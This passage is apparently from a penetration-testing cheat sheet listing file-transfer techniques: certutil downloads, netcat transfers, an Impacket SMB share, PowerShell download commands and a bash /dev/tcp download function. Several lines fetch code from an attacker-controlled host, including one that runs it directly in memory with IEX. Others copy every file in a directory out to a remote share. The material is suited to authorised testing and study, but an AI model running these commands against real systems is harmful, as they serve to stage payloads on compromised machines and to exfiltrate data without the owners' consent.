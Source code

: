 ```c
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
```

##### Netcat

```c
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```

##### Impacket

```c
sudo impacket-smbserver <SHARE> ./
sudo impacket-smbserver <SHARE> . -smb2support
copy * \\<LHOST>\<SHARE>
```

##### PowerShell

```c
iwr <LHOST>/<FILE> -o <FILE>
IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```

##### Bash only

###### wget version

Paste directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```
